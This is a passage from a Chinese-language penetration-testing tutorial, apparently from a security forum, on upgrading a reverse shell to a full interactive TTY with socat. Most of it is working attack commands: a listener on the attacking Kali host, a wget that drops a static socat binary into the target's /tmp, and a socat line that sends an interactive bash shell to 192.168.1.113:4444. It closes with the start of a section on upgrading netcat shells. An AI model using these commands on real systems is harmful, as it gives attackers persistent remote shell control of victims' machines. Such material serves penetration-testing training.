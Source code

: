 - - - - - -

1.3 socat
---------

> socat像netcat一样，我们可以用socat建立完整的TTY，但弊端就是需要在对方的主机上建立socat，说人话就是你得在对方机器安装或下载点东西，当然攻击机也需要安装

- kali

安装（因为我用的kali，所以就不用安了，它自带的）
==========================

sudo apt install socat

监听端口
====

socat file:`tty`,raw,echo\\=0 tcp-listen:4444

- 目标主机

从github上下载脚本（省的安装了）到/tmp目录下
===========================

当然可能碰到无法访问github的情况，那就本机下载然后传上去
===============================

wget [https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\\\_64/socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86%5C_64/socat) -O /tmp/socat  
​

给权限
===

chmod 755 /tmp/socat  
​

反弹
==

/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.113:4444

可以看到连vim都可执行了，而且按ctrl+c不会直接断开了，但实际上还是不算非常完美，偶尔也会出现卡死的情况

![image-20220527122019727](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7dde216b1ac8f7ee69cd62adff09893c311c0985.png)

要注意这里断开连接，就不能采用ctrl+c了，而是需要exit

![image-20220527122216362](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-219a575695ea07923b355bed894a1071225eddb2.png)

- - - - - -

1.4 花式操作--升级netcat
------------------

- 攻击机

\# 检查当前终端和STTY信息  
echo $TERM  
stty -a
